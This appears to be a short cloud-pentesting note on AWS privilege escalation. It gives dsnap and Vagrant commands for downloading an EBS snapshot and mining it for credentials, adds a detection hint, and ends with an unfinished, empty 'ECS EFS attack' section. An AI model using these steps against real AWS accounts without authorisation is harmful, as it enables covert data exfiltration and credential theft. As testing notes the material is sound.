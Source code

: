 # AWS Privilege Escalation - II

### EBS direct APIs and Snapshot

**Description:** 

- Attacker enumerates all of the Elastic Block Store volumes, snapshots, and snapshot permissions in the account
- Downloading if any EBS snapshot available
- Explore th snapshot using Vagrant and Virtualbox
- Steal credentials from it

**How to Exploit??**

    dsnap get <instance-id> # Pacu feature 
    
The temporary snapshot is downloaded to i-0d706e33814c1ef9a.img

    $ IMAGE="i-0d706e33814c1ef9a.img" vagrant up
    $ IMAGE="i-0d706e33814c1ef9a.img" vagrant ssh

**Potential Impact:**

Using the EBS Direct APIs can be a simple and effective way to exfiltrate data and discover secrets in an AWS network without alerting anyone.
Can be alerted by monitoring `ec2:ModifySnapshotAttribute` attribute

---

### ECS EFS attack

**Description:** 

- 

**How to Exploit??**

    
    
The temporary snapshot is downloaded to i-0d706e33814c1ef9a.img

    $ 

**Potential Impact:**



---
